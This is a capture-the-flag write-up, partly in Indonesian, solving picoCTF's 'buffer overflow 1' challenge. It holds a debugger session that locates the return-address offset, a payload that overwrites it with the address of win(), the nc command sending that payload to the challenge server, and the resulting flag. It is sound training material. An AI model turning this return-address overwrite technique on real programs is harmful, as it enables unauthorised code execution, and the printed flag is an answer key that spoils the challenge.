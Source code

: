 <h1>buffer overflow 1</h1>
<h3>Description</h3>
<p>Control the return address
Now we're cooking! You can overflow the buffer and return to the flag function in the <a href='https://artifacts.picoctf.net/c/186/vuln'>program</a>.
You can view source <a href='https://artifacts.picoctf.net/c/186/vuln.c'>here</a>. And connect with it using nc saturn.picoctf.net 49896</p>
<h3>Solution</h3>
<p>Cari overflow program pada pada fungsi gets di vuln()</p>

```console
gef➤  pattern create 100
[+] Generating a pattern of 100 bytes (n=4)
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[+] Saved as '$_gef0'
gef➤  r <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
Starting program: /home/xisco/Downloads/vuln <<< aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
─────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0xffffd32c  →  0x2e2f6000
$edx   : 0x1       
$esp   : 0xffffd3b0  →  "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x08049350  →  <__libc_csu_init+0000> endbr32 
$edi   : 0xf7ffcba0  →  0x00000000
$eip   : 0x6161616c ("laaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
─────────────────────────────────────────────────────────── stack ────
0xffffd3b0│+0x0000: "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"	 ← $esp
0xffffd3b4│+0x0004: "naaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd3b8│+0x0008: "oaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd3bc│+0x000c: "paaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd3c0│+0x0010: "qaaaraaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd3c4│+0x0014: "raaasaaataaauaaavaaawaaaxaaayaaa"
0xffffd3c8│+0x0018: "saaataaauaaavaaawaaaxaaayaaa"
0xffffd3cc│+0x001c: "taaauaaavaaawaaaxaaayaaa"
───────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x6161616c
───────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x6161616c in ?? (), reason: SIGSEGV
─────────────────────────────────────────────────────────── trace ────
──────────────────────────────────────────────────────────────────────
gef➤  pattern search 0x6161616c
[+] Searching for '6c616161'/'6161616c' with period=4
[+] Found at offset 44 (little-endian search) likely
```
<p>Overflow terjadi pada offset 44, dan lanjut check address dari fungsi win()</p>

```console
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```
<p>Fungsi address dari win() yaitu = 0x080491f6</p>
<pre>
payload=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08
</pre>

```console
root@xisco-VirtualBox:/home/xisco/Downloads# echo -e "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xf6\x91\x04\x08" | nc saturn.picoctf.net 59556
Please enter your string: 
Okay, time to return... Fingers Crossed... Jumping to 0x80491f6
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
```
<h3>Flag</h3>
<pre>
picoCTF{addr3ss3s_ar3_3asy_5c6baa9e}
</pre>
